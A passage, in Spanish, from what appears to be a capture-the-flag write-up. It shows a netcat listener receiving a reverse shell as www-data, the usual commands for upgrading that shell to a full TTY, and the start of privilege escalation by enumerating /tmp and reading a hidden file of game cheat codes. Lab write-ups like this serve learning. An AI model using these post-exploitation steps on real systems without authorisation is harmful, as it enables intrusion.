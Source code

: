 Ahora le daremos a `Ejecutar Comando` para que envie la `shell`, si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.28] from (UNKNOWN) [172.17.0.2] 44748
$ whoami
whoami
www-data
```

Ahora sanitizaremos la shell.

### Sanitizacion Shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user joe

Si nos vamos a la carpeta `/tmp` veremos lo siguiente:

```shell
cd /tmp
ls -la
```

Info:

```
total 20
drwxrwxrwt 1 root     root     4096 Mar  9 07:54 .
drwxr-xr-x 1 root     root     4096 Mar  9 07:33 ..
-rw-r--r-- 1 root     root      894 Jul 22  2024 .hidden_text.txt
-rw-r--r-- 1 www-data www-data  206 Mar  9 07:54 temp_script.py
drwx------ 2 mysql    mysql    4096 Jul 22  2024 tmp.w3E3JvWoeD
```

Vamos a leer el archivo `.hidden_text.txt` en el cual veremos lo siguiente:

```
Martin, esta es mi lista de mis trucos favoritos de gta sa:


HESOYAM
UZUMYMW
JUMPJET
LXGIWYL
KJKSZPJ
YECGAA
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
```